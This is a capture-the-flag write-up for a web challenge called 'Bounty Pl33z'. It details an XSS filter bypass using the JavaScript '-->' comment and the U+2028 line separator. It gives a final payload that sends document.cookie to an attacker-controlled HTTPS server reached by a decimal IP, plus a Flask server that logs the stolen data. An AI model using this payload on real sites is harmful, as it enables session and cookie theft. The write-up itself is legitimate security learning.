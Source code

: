 # Bounty Pl33z [255pts]

## Description
```
Where's my bounty?
http://3.114.5.202/

Hint: flag in cookies
Author: 🤣filedescriptor feat.🍊Orange
30 Teams solved.
```
## Content

In this challenge, we should make XSS payload with fd.php, as index.php is refusing all url except ones starting with `http://3.114.5.202`

fd.php makes redirection to url containing passed parameter, but some characters are filtered.

Our parameter goes here :

    window.self.location.href = "https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";


With some tests, it was figured out that `\r`, `\n`, `/`, `\`, `<`, `.` characters removed, and `"`, `'` characters should only occur once.

## Solution

### Single Line Comment in JS

As we want to add document[\`cookie\`] to the url, we need to escape the string, that means we need to use a quote.
The problem is that after putting our url with one quote should make valid JS code. (Or else, browser will refuse to execute it.)
I wanted to make comment without using `/`, (as all I know about js comments are `// ..` or `/* .. */`) I dived into [ECMAScipt Language Specification](https://www.ecma-international.org/ecma-262/10.0/index.html).
And finally I found that `-->` can be used as single line comment at [HTML-like Comments](https://www.ecma-international.org/ecma-262/10.0/index.html#sec-html-like-comments).

### Line Terminator in JS

But another problem emerged: If `-->` want to work as single line comment, Only WhiteSpaceSequence or SingleLineDelimietedCommentSequence can come before `-->` in the line.
So I tried to find out line delimiters except `\n` or `\r`.
Luckily, I found out that U+2028 or U+2029 can used as line terminator in JS at [Line Terminators](https://www.ecma-international.org/ecma-262/10.0/index.html#sec-line-terminators).
We can use UTF-8 encoding to use these characters in url: `%E2%20%A8` or `%E2%20%A9`

### HTTPS server

We also need a HTTPS server.
I wrote a simple HTTPS server with flask :
```
#!/usr/bin/env python3
from flask import Flask, request
import os
app = Flask(__name__)
app.secret_key = "sumango3"
@app.route('/')
def main():
    with open('log.txt', 'a') as f:
    	f.write(str(request.__dict__))
        f.write('<br><br>')
    with open('log.txt','r') as f:
        return f.read()

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1234, ssl_context='adhoc')
```

### URL Host without dot

To make non-dot url, we can use decimal ip for url as following:
A.B.C.D --> A * 256^3 + B * 256^2 + C * 256 + D

If my ip address is 1.2.3.4, 16909060 can be used.

### Payload

So final payload is as following:

    http://3.114.5.202/fd.php?q=16909060:1234?ck="%2Bdocument[`cookie`]%E2%20%A8-->

fd.php will return following code: (Line Separator character is non printable)

    window.self.location.href = "https://16909060:1234?ck="+document[`cookie`]<LS>-->oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";

which is valid JS code.

## Flag

    hitcon{/FD 1s 0ur g0d <(_ _)>}

## Appendix

[HTTPS server](https://github.com/sumango3/ctf/blob/master/Utils/https-server.py)
